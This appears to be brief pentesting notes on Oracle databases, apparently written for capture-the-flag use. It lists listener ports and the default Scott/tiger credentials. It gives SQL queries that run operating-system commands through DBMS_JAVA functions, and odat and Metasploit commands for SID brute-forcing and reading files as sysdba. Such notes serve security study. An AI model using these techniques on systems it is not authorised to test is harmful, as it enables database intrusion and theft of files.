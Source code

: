 # Basic Information
Oracle database (Oracle DB) is a relational database management system (RDBMS) from the Oracle Corporation.

## Ports
```
1521 Default TCP Listener
1522–1529 Secondary Listeners
1748 TCP Listener
```


# Basic Credentials

```
Username:  Scott
Password:  tiger
```

# Command Execution

```sql
-- 10g R2, 11g R1 and R2: DBMS_JAVA_TEST.FUNCALL()
SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','c:\\windows\\system32\\cmd.exe','/c', 'dir >c:\test.txt') FROM DUAL

SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','/bin/ls>/tmp/OUT2.LST') from dual

-- 11g R1 and R2: DBMS_JAVA.RUNJAVA()
SELECT DBMS_JAVA.RUNJAVA('oracle/aurora/util/Wrapper /bin/bash -c /bin/ls>/tmp/OUT.LST') FROM DUAL
```


# Possible Attacks
## Brute-force SID
1. You will need: `odat` and its `sidguesser` to bruteforce with a link provided
2. Use [Metasploit](https://www.metasploit.com/) with `auxiliary(admin/oracle/sid_brute)`
3. Use `sqlplus` to login with the creds or
	1. Read file with odat:
```sh
odat ctxsys -s <ip> -d XE -U SCOTT -P tiger --sysdba --getFile flag.txt
```


# References
- [https://book.hacktricks.wiki/en/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener.html](https://book.hacktricks.wiki/en/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener.html)
- [Brute-Force SID - https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf)
- [https://secybr.com/posts/oracle-pentesting-best-practices/](https://secybr.com/posts/oracle-pentesting-best-practices/)